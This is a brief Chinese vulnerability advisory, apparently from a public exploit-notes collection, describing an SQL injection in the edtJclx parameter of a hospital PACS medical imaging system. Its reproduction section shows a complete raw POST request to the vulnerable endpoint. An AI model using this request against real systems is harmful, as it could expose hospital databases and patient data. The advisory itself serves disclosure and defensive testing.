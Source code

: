 # 成都信通网易医疗科技发展有限公司PACS(医学影像信息管理系统)edtJclx存在SQL注入漏洞

# 一、漏洞简介
成都信通网易医疗科技发展有限公司总部位于四川成都高新区天府软件园，在国内医疗软件行业中率先采用Java技术，融入国际国内标准，整体设计，持续研发，先后形成了“智慧云医院信息平台”、“医共体信息平台”、“互联网医院平台”、“医养融合信息平台”等新一代一系列自主知识产权产品，全面覆盖了单体医院业务、区域医疗、医共体、“互联网+健康”等信息化建设领域。成都信通网易医疗科技发展有限公司PACS(医学影像信息管理系统)edtJclx存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 成都信通网易医疗科技发展有限公司PACS(医学影像信息管理系统)

# 三、特征
![1700650941861-e1d2149c-0043-4e5b-8d5a-a051c63982a6.png](./img/YR1LQosHaWEWoTsy/1700650941861-e1d2149c-0043-4e5b-8d5a-a051c63982a6-934372.png)

# 四、漏洞复现
```plain
POST /JcbgForYsz/Show_Jcbg_Ysz.asp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Connection: close
Cookie: ASPSESSIONIDCSBBQDTQ=KAJHGCOCOODELKOELMFGEMMK
Upgrade-Insecure-Requests: 1

edtJclx=%A3%C2%D0%CD%B3%AC%C9%F9&edtQsrq=2023-10-17&edtJsrq=2023-10-17&edtBgzt=%D2%D1%D4%A4%D4%BC&edtZwxm=&edtSjks=%B1%BE%D4%BA%CC%E5%BC%EC&edtSubmit=%B2%E9%D1%AF
```

![1700651676241-d3392ad1-f0ea-486a-a6fa-50b796736354.png](./img/YR1LQosHaWEWoTsy/1700651676241-d3392ad1-f0ea-486a-a6fa-50b796736354-334387.png)





> 更新: 2024-02-29 23:55:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cggv50rtx7k19pah>